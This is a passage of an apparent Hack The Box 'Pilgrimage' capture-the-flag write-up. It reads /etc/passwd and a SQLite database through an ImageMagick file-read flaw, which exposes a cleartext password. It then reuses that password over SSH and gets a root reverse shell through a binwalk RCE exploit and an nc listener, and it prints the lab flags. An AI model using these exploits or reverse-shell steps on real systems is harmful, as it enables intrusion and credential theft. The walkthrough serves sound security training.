6f67696e0a656d696c793a783a313030303a313030303a656d696c792c2c2c3a2f686f6d
652f656d696c793a2f62696e2f626173680a73797374656d642d636f726564756d703a78
3a3939393a3939393a73797374656d6420436f72652044756d7065723a2f3a2f7573722f
7362696e2f6e6f6c6f67696e0a737368643a783a3130353a36353533343a3a2f72756e2f
737368643a2f7573722f7362696e2f6e6f6c6f67696e0a5f6c617572656c3a783a393938
3a3939383a3a2f7661722f6c6f672f6c617572656c3a2f62696e2f66616c73650a

    signature: 78b9dfbaedd0d5cd7cb91c9ff9c2c2c925fd67a642483e6cd977973230841b28
  Artifacts:
    filename: 655a65e420bce.png
    verbose: true
  Tainted: False
  Filesize: 1688B
  Number pixels: 16384
  Pixels per second: 7.77163MB
  User time: 0.000u
  Elapsed time: 0:01.002
  Version: ImageMagick 6.9.11-60 Q16 x86_64 2021-01-25 https://imagemagick.org

┌──(kali㉿kali)-[~/Desktop/hackthebox/pilgrimage/imagemagick-lfi-poc]
└─$ 
```

And the big data blob is the content of our file. So we have to decode it:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/pilgrimage/imagemagick-lfi-poc]
└─$ python3 -c 'print(bytes.fromhex("726f6f743a783a30 [...] 696e2f66616c73650a").decode("utf-8"))'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
emily:x:1000:1000:emily,,,:/home/emily:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false


┌──(kali㉿kali)-[~/Desktop/hackthebox/pilgrimage/imagemagick-lfi-poc]
└─$
```
We got the `/etc/passwd`! The user `emily` really exists on the system.

With that exploit we can get every file on the system that the `magick` command has the rights to access.

Now remember the SQLite database `/var/db/pilgrimage`. It could contain interesting user information and credentials.

So we can create a new exploit for this file and upload it. The downloadable image contains a huge data block:
```
53514c69746520666f726d61742033001000010100402020000000550000000500000000
000000000000000400000004000000000000000000000001000000000000000000000000
000000000000000000000000000000000000000000000055002e4b910d0ff800040eba00
0f650fcd0eba0f3800000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000

[...]
```

We can copy that block into another file and trim the newlines:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/pilgrimage/imagemagick-lfi-poc]
└─$ tr -d "\n\r" < raw > database

┌──(kali㉿kali)-[~/Desktop/hackthebox/pilgrimage/imagemagick-lfi-poc]
└─$
```

Since this data is a bit long for the python command we could either write a script or just throw it into CyberChef. I choose the last one.

In CyberChef we can also upload a file and download the decoded version:


We can now download the database and use it:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/pilgrimage/imagemagick-lfi-poc]
└─$ file download.sqlite
download.sqlite: SQLite 3.x database, last written using SQLite version 3034001, file counter 85, database pages 5, cookie 0x4, schema 4, UTF-8, version-valid-for 85

┌──(kali㉿kali)-[~/Desktop/hackthebox/pilgrimage/imagemagick-lfi-poc]
└─$ 
```

With a SQLite DB Browser we can now access the data. The database has two tables. `images` and `users`. `images` is empty, but `users` has the credentials stored in clear text of the user `emily`:


CyberChef also reveals this information, since SQLite databases stores their content in clear text. But this approach was a bit more interesting for me.

So we found the password `abigchonkyboi123` for the user `emily`.

## User flag
Let's test those credentials via ssh:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/pilgrimage/imagemagick-lfi-poc]
└─$ ssh emily@$IP          
The authenticity of host '10.10.11.219 (10.10.11.219)' can't be established.
ED25519 key fingerprint is SHA256:uaiHXGDnyKgs1xFxqBduddalajktO+mnpNkqx/HjsBw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.219' (ED25519) to the list of known hosts.
emily@10.10.11.219's password: 
Linux pilgrimage 5.10.0-23-amd64 #1 SMP Debian 5.10.179-1 (2023-05-12) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Nov 28 02:07:34 2023 from 10.10.14.166
emily@pilgrimage:~$ 
```
It worked!

Inside the home directory we find the user flag:
```
emily@pilgrimage:~$ ls -al 
total 48
drwxr-xr-x 4 emily emily 4096 Nov 28 02:05 .
drwxr-xr-x 3 root  root  4096 Jun  8 00:10 ..
lrwxrwxrwx 1 emily emily    9 Feb 10  2023 .bash_history -> /dev/null
-rw-r--r-- 1 emily emily  220 Feb 10  2023 .bash_logout
-rw-r--r-- 1 emily emily 3526 Feb 10  2023 .bashrc
drwxr-xr-x 3 emily emily 4096 Jun  8 00:10 .config
-rw-r--r-- 1 emily emily   44 Jun  1 19:15 .gitconfig
drwxr-xr-x 3 emily emily 4096 Jun  8 00:10 .local
-rw-r--r-- 1 emily emily  807 Feb 10  2023 .profile
-rw------- 1 emily emily   12 Nov 28 02:04 .python_history
-rw-r----- 1 root  emily   33 Nov 27 09:14 user.txt
emily@pilgrimage:~$ cat user.txt 
07ae74993a5c12b8c3aff14709734f10
emily@pilgrimage:~$ 
```

## System enumeration
Running LinPEAS showed those unusual processes:
```
                ╔════════════════════════════════════════════════╗                                                                                         
════════════════╣ Processes, Crons, Timers, Services and Sockets ╠════════════════
                ╚════════════════════════════════════════════════╝                                                                                         
╔══════════╣ Cleaned processes                                                                                                                             
╚ Check weird & unexpected proceses run by root: https://book.hacktricks.xyz/linux-hardening/privilege-escalation#processes
root           1  0.0  0.2 163804 10056 ?        Ss   Nov27   0:06 /sbin/init

[...]

root         723  0.0  0.0   6816  2988 ?        Ss   Nov27   0:00 /bin/bash /usr/sbin/malwarescan.sh
root         733  0.0  0.0   2516   776 ?        S    Nov27   0:00  _ /usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/
root         734  0.0  0.0   6816  2332 ?        S    Nov27   0:00  _ /bin/bash /usr/sbin/malwarescan.sh
```

The script `/usr/sbin/malwarescan.sh` has the following content:
```sh
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
        filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
        binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
                if [[ "$binout" == *"$banned"* ]]; then
                        /usr/bin/rm "$filename"
                        break
                fi
        done
done
```

`/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/` creates a listener on the folder `/var/www/pilgrimage.htb/shrunk/` and triggers every time the event `create` occurs. Meaning if an image has been shrunken and creates a file inside the folder `shrunk/` it triggers the event.

See the parameters of `inotifywait`:
* `-m, --monitor` Keep listening for events forever.
* `-e, --event` Listen for specific event(s).

The rest of the script ensures that every time a file is created inside `/var/www/pilgrimage.htb/shrunk/` (successful shrunken an image) the command `binwalk -e` is executed on that file. `binwalk` reveals any embedded binaries inside a file.

After that call, the output is checked for the content of `blacklist`. That means that if a shrunken file contains a `Executable script` or `Microsoft executable` it will be completly removed. 

This script and therefore also `binwalk` is executed by the root user. So if `binwalk` has some kind of exploit that we can trigger, we could abuse this.

## `binwalk` exploit
A quick lookup reveals a `binwalk` RCE:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/pilgrimage/.git]
└─$ searchsploit binwalk
------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                           |  Path
------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Binwalk v2.3.2 - Remote Command Execution (RCE)                                                                          | python/remote/51249.py
------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

┌──(kali㉿kali)-[~/Desktop/hackthebox/pilgrimage/.git]
└─$ 
```

Let's check the version on our system:
```
emily@pilgrimage:/var/www/pilgrimage.htb/shrunk$ binwalk

Binwalk v2.3.2
Craig Heffner, ReFirmLabs
https://github.com/ReFirmLabs/binwalk

[...]
```
Version `v2.3.2`. So it matches our exploit.

From https://nvd.nist.gov/vuln/detail/CVE-2022-4510 :

_By crafting a malicious PFS filesystem file, an attacker can get binwalk's PFS extractor to extract files at arbitrary locations when binwalk is run in extraction mode (-e option). Remote code execution can be achieved by building a PFS filesystem that, upon extraction, would extract a malicious binwalk module into the folder .config/binwalk/plugins. This vulnerability is associated with program files src/binwalk/plugins/unpfs.py._

### Exploit
The exploit found by `searchsploit` can be used like the following:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/pilgrimage]
└─$ python 51249.py exploit.png 10.10.16.116 8081

################################################
------------------CVE-2022-4510----------------
################################################
--------Binwalk Remote Command Execution--------
------Binwalk 2.1.2b through 2.3.2 included-----
------------------------------------------------
################################################
----------Exploit by: Etienne Lacoche-----------
---------Contact Twitter: @electr0sm0g----------
------------------Discovered by:----------------
---------Q. Kaiser, ONEKEY Research Lab---------
---------Exploit tested on debian 11------------
################################################


You can now rename and share binwalk_exploit and start your local netcat listener.


┌──(kali㉿kali)-[~/Desktop/hackthebox/pilgrimage]
└─$ file binwalk_exploit.png 
binwalk_exploit.png: PNG image data, 3285 x 3808, 8-bit/color RGBA, non-interlaced

┌──(kali㉿kali)-[~/Desktop/hackthebox/pilgrimage]
└─$ 
```

Since the script only checks the shrunken file we have to upload it to server (via `scp`, python webserver, etc.) and copy it by hand into the directory. The shrink would otherwise destroy the exploit.

So we can try to catch our reverse shell and copy the image:
```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 8081
Listening on 0.0.0.0 8081
Connection received on 10.10.11.219 46470

ls -al 
total 28
drwxr-xr-x 7 root root 4096 Nov 28 05:53 .
drwx------ 5 root root 4096 Jun  8 00:10 ..
drwxr-xr-x 2 root root 4096 Nov 28 05:19 _6564ddcabb547.png.extracted
drwxr-xr-x 2 root root 4096 Nov 28 05:48 _6564e4602feeb.png.extracted
drwxr-xr-x 2 root root 4096 Nov 28 05:50 _6564e4e9bef7f.png.extracted
drwxr-xr-x 2 root root 4096 Nov 28 05:51 _6564e5484a9d3.png.extracted
drwxr-xr-x 3 root root 4096 Nov 28 05:53 _binwalk_exploit.png.extracted

id
uid=0(root) gid=0(root) groups=0(root)
```

### Root flag
We can know grab the root flag:
```
cd /root

ls -al 
total 40
drwx------  5 root root 4096 Jun  8 00:10 .
drwxr-xr-x 18 root root 4096 Jun  8 00:10 ..
lrwxrwxrwx  1 root root    9 Feb 10  2023 .bash_history -> /dev/null
-rw-r--r--  1 root root  571 Apr 11  2021 .bashrc
drwxr-xr-x  3 root root 4096 Jun  8 00:10 .config
-rw-r--r--  1 root root   93 Jun  7 20:11 .gitconfig
drwxr-xr-x  3 root root 4096 Jun  8 00:10 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
drwxr-xr-x  7 root root 4096 Nov 28 05:53 quarantine
-rwxr-xr-x  1 root root  352 Jun  1 19:13 reset.sh
-rw-r-----  1 root root   33 Nov 28 05:14 root.txt

cat root.txt 
b0cdfb8f2e4d53ec58442e8143619597

```